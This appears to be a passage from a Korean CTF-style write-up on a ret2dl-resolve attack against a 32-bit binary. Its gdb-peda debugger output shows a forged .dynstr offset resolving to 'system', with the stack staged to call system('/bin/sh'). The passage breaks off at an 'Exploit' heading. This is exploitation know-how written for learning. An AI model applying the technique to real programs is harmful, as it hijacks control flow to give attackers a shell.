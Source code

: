 fake_st_name을 가리키도록 .dynstr에서의 offset을 맞춰준다.

```
gdb-peda$ elfheader .dynstr
.dynstr: 0x804822c - 0x804827c (rodata)
gdb-peda$ x/s 0x804822c + 0x00002120
0x804a34c:	"system"
```

```
[----------------------------------registers-----------------------------------]
EAX: 0x3b (';')
EBX: 0x0 
ECX: 0x804a320 --> 0x3b (';')
EDX: 0x64 ('d')
ESI: 0x0 
EDI: 0x804a320 --> 0x3b (';')
EBP: 0x41414141 ('AAAA')
ESP: 0x804a31c --> 0xf7e1b940 (<system>:	sub    esp,0xc)
EIP: 0xf7fc7ffb (ret    0xc)
EFLAGS: 0x212 (carry parity ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7fc7ff1:	mov    ecx,DWORD PTR [esp]
   0xf7fc7ff4:	mov    DWORD PTR [esp],eax
   0xf7fc7ff7:	mov    eax,DWORD PTR [esp+0x4]
=> 0xf7fc7ffb:	ret    0xc   <--- 0xc 만큼 인자를 정리해준다.
   0xf7fc7ffe:	xchg   ax,ax 
   0xf7fc8000:	push   esp
   0xf7fc8001:	add    DWORD PTR [esp],0x8
   0xf7fc8005:	push   ebp
[------------------------------------stack-------------------------------------]
0000| 0x804a31c --> 0xf7e1b940 (<system>:	sub    esp,0xc)
0004| 0x804a320 --> 0x3b (';')
0008| 0x804a324 --> 0xf7fd7918 --> 0x0 
0012| 0x804a328 --> 0x2084 
0016| 0x804a32c ("BBBBS\243\004\b\f\240\004\b\a\027\002")
0020| 0x804a330 --> 0x804a353 ("/bin/sh")
0024| 0x804a334 --> 0x804a00c --> 0xf7e1b940 (<system>:	sub    esp,0xc)
0028| 0x804a338 --> 0x21707 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0xf7fc7ffb in ?? () from /lib/ld-linux.so.2
gdb-peda$ x/24wx $esp
0x804a31c:	0xf7e1b940 <- system  0x0000003b	0xf7fd7918	0x00002084
0x804a32c:	0x42424242	0x0804a353 <- &"/bin/sh"  0x0804a00c	0x00021707
0x804a33c:	0x00002120	0x00000000	0x00000000	0x00000012
0x804a34c:	0x74737973	0x2f006d65	0x2f6e6962	0x00006873
0x804a35c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a36c:	0x00000000	0x00000000	0x00000000	0x00000000
```

## **Exploit**

